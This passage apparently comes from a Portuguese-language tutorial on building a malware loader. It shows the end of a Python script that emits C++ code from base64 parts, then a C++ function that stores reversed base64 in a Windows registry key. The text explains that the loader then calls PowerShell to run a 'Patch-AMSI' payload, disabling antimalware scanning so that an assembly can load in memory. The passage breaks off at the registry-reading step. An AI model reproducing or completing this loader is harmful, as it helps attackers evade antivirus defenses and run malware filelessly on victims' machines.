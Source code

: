 ```python
    
    # Gerar código C++
    cpp_code = generate_cpp_code(base64_parts)
    
    # Caminho para salvar o código C++
    cpp_code_path = "generated_code.cpp"
    
    # Salvar o código C++ em um arquivo
    with open(cpp_code_path, "w") as file:
        file.write(cpp_code)
    
    print(f"Base64 parts saved to {output_path}")
    print(f"C++ code saved to {cpp_code_path}")

```

![](https://telegra.ph/file/8aa42aabc1b09fc7396bd.png)

## Criação do Loader
Vamos criar um código simples em C++ que escreverá nosso Base64 reverso em uma chave de registro.
e em seguida o código chamará o PowerShell para executar o base64 do `Patch-AMSI`, permitindo a execução do código responsável por carregar o assembly na memória.

---
### Escrever Valor no Registro
Essa parte do código define uma função capaz de escrever um valor em uma chave do registro do Windows.
ele usa `RegCreateKeyExW` para criar a chave se ela não existir, e `RegSetValueExW` para definir o valor da chave.

```cpp
bool WriteRegistryValue(const std::wstring& key, const std::wstring& valueName, const std::wstring& value) {
    HKEY hKey;
    LONG result = RegCreateKeyExW(HKEY_CURRENT_USER, key.c_str(), 0, NULL, REG_OPTION_NON_VOLATILE, KEY_SET_VALUE, NULL, &hKey, NULL);
    if (result == ERROR_SUCCESS) {
        result = RegSetValueExW(hKey, valueName.c_str(), 0, REG_SZ, reinterpret_cast<const BYTE*>(value.c_str()), (value.size() + 1) * sizeof(wchar_t));
        RegCloseKey(hKey);
    }
    return result == ERROR_SUCCESS;
}
```

---
### Ler Valor do Registro

Já essa parte vai ler o valor da chave do registro do Windows que criamos.
para isso ele usa o `RegOpenKeyExW` para abrir a chave e `RegQueryValueExW` para obter o valor associado.
